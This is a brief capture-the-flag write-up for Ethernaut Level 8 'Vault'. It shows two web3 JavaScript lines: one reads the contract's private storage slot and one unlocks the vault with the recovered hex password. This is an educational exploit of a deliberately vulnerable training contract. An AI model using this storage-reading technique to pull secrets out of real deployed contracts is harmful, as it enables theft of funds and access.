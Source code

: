 +++
title = 'Ethernaut Level 8 - Vault'
date = 2024-08-28T16:14:08+02:00
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'Nothing is hidden on the blockchain'
tags = [ 'writeups' , 'blockchain' ]
+++
> Nothing is hidden on the blockchain
https://medium.com/coinmonks/smart-contract-exploits-part-1-featuring-capture-the-ether-lotteries-8a061ad491b


```js
// Leak 32 bytes at offset 1
await web3.eth.getStorageAt(contract.address, 1)
await contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29") 
```

